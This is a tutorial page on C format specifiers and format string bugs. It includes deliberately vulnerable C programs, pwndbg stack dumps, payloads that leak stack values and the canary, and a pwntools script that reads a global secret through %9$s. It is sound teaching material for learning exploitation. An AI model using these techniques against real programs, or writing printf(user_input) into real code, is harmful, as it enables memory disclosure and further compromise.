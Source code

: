 ```yaml
---
layout: page
title: Format Strings
tags: [format_strings, pwn]
---
```


Format specifiers in C are used to take inputs and print the output of a type. It is a way to tell the compiler the type of data that is being used for i/o. They are mostly used with the printf and scanf family of functions such as printf, sprintf, scanf, sscanf. The following table shows the use of various format specifiers in C / C++

<table>
	<thead>
		<tr>
			<th>Format specifier</th>
			<th>Used for</th>
		</tr>
	</thead>
	<tr>
		<td>%c</td>
		<td>A single character</td>
	</tr>
		<tr>
		<td>%s</td>
		<td>A string</td>
		</tr>
	<tr>
		<td>%hi</td>
		<td>short (signed)</td>
	</tr>
	<tr>
		<td>%hu</td>
		<td>short (unsigned)</td>
	</tr>
	<tr>
		<td>%lu</td>
		<td>long (unsigned)</td>
	</tr>
	<tr>
		<td>%i</td>
		<td>A decimal integer</td>
	</tr>
	<tr>
		<td>%o</td>
		<td>An octal integer</td>
	</tr>
	<tr>
		<td>%x</td>
		<td>A hexadecimal integer</td>
	</tr>
	<tr>
		<td>%p</td>
		<td>An address( or pointer )</td>
	</tr>
	<tr>
		<td>%f</td>
		<td>Floating point numbers</td>
	</tr>
	<tr>
		<td>%%</td>
		<td>The % symbol</td>
	</tr>
	<tr>
		<td>%u</td>
		<td>unsigned int</td>
	</tr>
	<tr>
		<td>i$</td>
		<td>Direct parameter access, specifies the parameter to use for input</td>
	</tr>
	<tr>
		<td>%ix</td>
		<td>Width modifier. Specifies the minimum width of output</td>
	</tr>
	<tr>
		<td>%hh</td>
		<td>Specifies that the length is one byte</td>
	</tr>
		<tr>
		<td>%h</td>
		<td>Specifies that the length is two bytes</td>
	</tr>
</table>

## Format String Bug
It occurs when the user input is passed as format argument to the printf of scanf family of functions. Consider a simple C program:
```c
#include<stdio.h>

void func(){
	unsigned long x1 = 0xdeadbeef;
	unsigned long x2 = 0xcafebabe;
	unsigned long x3 = 0xbabecafe;
	unsigned long x4 = 0xd00df00d;
	char buf[32] ;
	fgets(buf,32,stdin);
	printf(buf);
}
int main(){
	func();
	return 0;
}
```
Let's send a bunch of `%p` and see what happens. 

Thus, we see that we can dump local stack variables. Format string bug is so powerful, it may lead to memory corruption and arbitrary code execution. The first few QWORDs come from printf's stack and the data after that comes from the stack of the caller function.
The `rsp` register stores a pointer to the top of the stack. Let's say this pointer is `ptr`. Then, in this case, `%6$p` gives the value stored at `*ptr`, `%7$p` gives the value stored at *(ptr+8), `%8$p` gives the value stored at *(ptr+16) and so on. Let's verify this using `pwndbg`.
```py
pwndbg> b *0x0000000000401263
```
With the breakpoint set right after the call to printf, we can run the program and send this input `%6$p.%7$p.%8$p.%9$p`.

This gives the output `0xdeadbeef.0xcafebabe.0xbabecafe.0xd00df00d`. Let's examine the stack pointer.
```py
pwndbg> p/x $rsp
$1 = 0x7fffffffdce0
pwndbg> x/10gx 0x7fffffffdce0
0x7fffffffdce0:	0x00000000deadbeef	0x00000000cafebabe
0x7fffffffdcf0:	0x00000000babecafe	0x00000000d00df00d
0x7fffffffdd00:	0x2437252e70243625	0x252e702438252e70
0x7fffffffdd10:	0x00007f000a702439	0x00000000004012a0
0x7fffffffdd20:	0x0000000000000000	0x5ff669990d493f00

```
We can also compute the offset to the stack canary using the concept mentioned above. The canary is stored at (ptr+72) which means that the payload to dump it would be %15$p (72/8 + 6 = 15)

```py
pwndbg> r
Starting program: /home/sh4dy/InfoSec/pwn/fmtstr/chall
%15$p
0xd93923e60f223e00
```

### Reading data from a particular address
Instead of reading the data stored at the stack, we would like to read data from any arbitrary location. Consider the following program:
```c
#include<stdio.h>
#include<string.h>

char secret[32];

void setup(){
	strcpy(secret,"format_strings_are_cool");
}

void func(){
	unsigned long x = 0xdeadbeef;
	char buf[32];
	scanf("%32s",buf);
	printf(buf);
}

int main(){
	setup();
	func();
	return 0;
}
```
Our goal is to read the contents of the array `secret`. To do that, we can insert the address of `secret` into the stack and read it using `%s`. The address must be aligned properly.
```py
pwndbg> b *func+77
Breakpoint 1 at 0x401201
```
Let's run the program and send the input `aaaaaaaabbbbbbbb` and dump few QWORDS from the pointer stored at `rsp`
```py
pwndbg> dq  $rsp 10

00007fffffffdd40     00000000000000c2 00000000deadbeef
00007fffffffdd50     6161616161616161 6262626262626262
00007fffffffdd60     00007ffff7fb1200 0000000000401240
00007fffffffdd70     0000000000000000 910b6acb4da2ec00
00007fffffffdd80     00007fffffffdd90 0000000000401234
```
Here, `%6$p` prints `0xc2`, `%7$p` prints `0xdeadbeef` and so on. In order to perform an arbitrary read, we can insert the target address at some location on the stack and read it using `%i$s` where `i` is the offset. This task can be done easily using `pwntools`.

```py
#!/usr/bin/env python3

from pwn import *
elf = context.binary = ELF("./chall")

p = elf.process()

gdb.attach(p,gdbscript="b*func+77")
payload = b'aaaa%9$s'+ p32(elf.sym.secret)
pause()
p.sendline(payload)
p.interactive()
```
Running the script and dumping the stack, we get:
```py
pwndbg> x/10gx $rsp
0x7fff7d03ed10:	0x00000000000000c2	0x00000000deadbeef
0x7fff7d03ed20:	0x7324392561616161	0x0000000000404060
0x7fff7d03ed30:	0x00007fd2daa302e8	0x0000000000401240
0x7fff7d03ed40:	0x0000000000000000	0xef1d016c9183a200
0x7fff7d03ed50:	0x00007fff7d03ed60	0x0000000000401234
```
`0x404060` is the address of the buffer `secret`. It is stored at the offset `9`. Sending `%9$s` with some padding to account for the 8 byte alignment would print the string stored at `0x404060`.

References:
[https://www.freecodecamp.org/news/format-specifiers-in-c/](https://www.freecodecamp.org/news/format-specifiers-in-c/)

[https://kevinalmansa.github.io/application%20security/Format-Strings/](https://kevinalmansa.github.io/application%20security/Format-Strings/)

[https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

